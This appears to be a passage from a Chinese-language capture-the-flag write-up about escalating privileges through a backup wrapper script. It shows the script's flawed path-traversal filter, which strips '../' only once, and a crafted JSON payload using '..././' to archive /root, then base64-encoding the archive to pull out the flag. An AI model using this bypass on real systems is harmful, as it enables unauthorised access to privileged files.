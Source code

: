 ```
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```
哎，这个其实是一个开源的东西，github可以找到，类似备份，可以看到禁用了目录穿越，但是只是替换成空格，那么`双写绕过`就行了，除了这个方法，还可以写`.json`老老实实的写
```
{
  "destination": "/home/martin/backups",
  "verbose_log": true,
  "directories_to_sync": [
    "/var/../root/"
  ],
  "directories_to_archive": [
    "/var/..././root/"
  ]
}
```
去读`root`的全部路径到`backup`，然后发现生成的`.tar.gz2`包`root`才可以读，哎，怎么办呢？
`base64`是个伟大的东西，可以把整个文件转成base64，然后去本地解密成`.tar.gz2`，也就是`base64 -d encoded.txt > 1.tar.gz2`，然后解压得到flag
